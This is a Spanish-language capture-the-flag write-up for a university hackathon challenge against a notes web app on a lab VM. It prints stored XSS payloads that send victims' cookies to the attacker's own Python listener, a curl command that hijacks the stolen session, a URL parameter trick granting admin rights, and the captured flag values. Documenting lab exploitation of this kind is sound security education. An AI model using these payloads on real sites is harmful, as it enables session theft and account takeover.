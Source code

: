 # Hackaton UdG - Reto 3

## Index

- [Flag 1](#flag-1)

- [Flag 2](#flag-2)

- [Flag 3](#flag-3)

### Flag 1 

Creamos un usuario, levantamos un servidor en python con `python -m http.server 6969` y dentro de los upload, en el apartado de texto plano alguno de los siguientes **XSS**

```html
<!-- esta primera puede buggear la web, reinciadno la VM se arreglar -->
<img src=x onerror="document.location='http://10.0.2.15:6969/cookie?data='+document.cookie;">
<!-- segunda opción -->
<img src=x onerror="fetch('http://10.0.2.15:6969/cookie?data='+document.cookie)">
```

en nuestro servidor de **Python** vemos esta línea

```shell
10.0.2.12 - - [17/Mar/2025 23:01:59] "GET /cookie?data=NOTESAPP=29260242|asmith||author HTTP/1.1" 404 -

```
y con la cookie ya podemos lanzar un `curl` como la usuaria *Alice Smith* y ver que tiene en su blog

```shell
                                                                            
curl -b "NOTESAPP=29260242|asmith||author" http://10.0.2.12/notesapp/

<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01 Transitional//EN">
<!-- Copyright 2017 Google Inc. -->
<html>
<head>
<title>Notes: Home</title>
<style>
...
...
  <tr>
    <td></td>
    <td>
      Private&nbsp;note&nbsp;
    </td>
    <td>
      <a class='button' id='show' onclick='_showHide("show", "hide")' href='#'>Show &#9658;</a>
      <span id='hide' style='display: none;'>
      <a class='button' onclick='_showHide("show", "hide")' href='#'>Hide &#9668;</a> &nbsp;
      <span id='private_note'>HACK{jckauGfFL5Xl2ovCTfR7sAaWAgAkHZx4SnC1n2Q6fvo}</span></span>
    </td>
  </tr>
  <tr><td colspan='3'><hr></td></tr>

  <tr><td colspan='3'><b>Most recent notes:</b></td></tr>

...

</html>
```

**Flag 1:** `HACK{jckauGfFL5Xl2ovCTfR7sAaWAgAkHZx4SnC1n2Q6fvo}`


### Flag 2 

Cuando registramos a un usuario en la URL aparece `&is_author=True`, aprovechando esta vulnerabilidad podemos modificar el path añadiendo `is_admin=True` como vemos en el ejemplo siguiente:

```shell
http://10.0.2.12/notesapp/saveprofile?action=new&uid=pepito&pw=12345&is_admin=True
```
y con esto conseguimos un usuario con poderes de administrador, y como nos dicen que un administrador puede editar otros, pues tan sencillo como ir a editar el usuario `administrator` y en la `Private Note` vemos la flag.


**Flag 2:** `HACK{k9lb8YI00Be2t7eAm4zI7lDr-B8ePCWspRuDAF9ccWQ}`

### Flag 3


